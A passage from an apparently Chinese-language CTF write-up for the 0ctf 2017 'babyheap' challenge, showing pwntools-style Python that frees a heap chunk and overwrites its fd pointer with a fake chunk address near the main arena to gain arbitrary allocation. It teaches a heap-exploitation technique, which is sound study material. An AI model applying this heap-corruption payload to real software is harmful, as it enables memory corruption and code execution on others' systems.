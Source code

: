 ```python
allocate(0x60)#allocate一个新chunk2，用以arbitrary alloc
#chunk2是从unsorted chunk中分割得来，chunk分布如下(chunk3位置不变，图未截全)
```

![0x12](/img/babyheap_0ctf_2017_2.png)

```python
#此时采用arbitrary alloc的思想，通过修改chunk2的fd实现任意位置chunk修改
free(2)
fake_chunk_addr = arena_addr - 0x33
payload= b'a'*0x40 + p64(0)+p64(0x71)+p64(fake_chunk_addr)
fill(1, len(payload), payload)
```

![0x13](/img/image-20220726004159403.png)
